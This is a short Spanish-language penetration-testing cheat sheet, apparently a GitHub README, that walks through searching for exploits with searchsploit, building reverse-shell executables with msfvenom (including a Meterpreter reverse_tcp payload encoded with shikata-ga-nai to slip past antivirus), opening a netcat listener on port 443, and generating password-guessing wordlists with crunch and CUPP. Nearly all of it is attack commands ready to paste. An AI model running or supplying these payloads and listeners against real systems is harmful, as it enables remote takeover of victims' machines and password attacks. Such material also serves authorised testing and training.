 # **🔍 BUSCAR EXPLOIT**
  ..............

  1. Para buscar un exploit específico, usa el siguiente comando:
     ```bash
     searchsploit wordpress mail masta
     ```

  2. Para obtener detalles de un exploit:
     ```bash
     searchsploit -x <path>
     ```

# **💻 ENCODEAR PAYLOAD**
  ................

  1. Utiliza [www.revshells.com](http://www.revshells.com) para generar comandos **msfvenom**.

  2. Generar un payload básico con msfvenom:
     ```bash
     msfvenom -p "payload" LHOST=10.10.10.10 LPORT=443 -f exe -o reverse.exe
     ```

  3. Crear un payload con cifrado (shikata-ga-nai):
     ```bash
     msfvenom -p windows/meterpreter/reverse_tcp LHOST=(Your IP Address) LPORT=(Your Port) -e x86/shikata-ga-nai -f exe > encoded.exe
     ```
# 🔊 PONER MI PC EN ESCUCHA
......................

Para poner tu PC en escucha en un puerto específico:
```bash
nc -lvnp 443
```

# 🔑 CREAR DICCIONARIOS
....................

1. **Generación de Contraseñas con Crunch:**
   ```bash
   crunch <min-len> <max-len> [<charset string>] [options]
   ```

2. **CUPP (Common User Password Profiler):**  
   **Instrucciones de instalación:**
   ```bash
   sudo apt install cupp -y
   cupp -i  # Rellenar con los datos disponibles.
   ```
